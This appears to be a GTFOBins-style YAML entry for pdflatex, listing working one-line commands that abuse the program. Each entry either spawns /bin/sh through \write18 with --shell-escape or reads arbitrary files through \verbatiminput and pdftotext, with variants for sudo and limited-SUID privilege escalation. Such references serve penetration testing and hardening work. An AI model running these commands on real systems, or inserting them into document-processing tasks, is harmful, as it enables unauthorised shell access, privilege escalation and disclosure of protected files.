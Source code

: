 ```yaml
---
functions:
  shell:
    - code: |
        pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  file-read:
    - description: The read file will be part of the output.
      code: |
        pdflatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        pdftotext article.pdf -
  sudo:
    - description: The read file will be part of the output.
      code: |
        sudo pdflatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        pdftotext article.pdf -
    - code: |
        sudo pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  limited-suid:
    - code: |
        ./pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
---
```

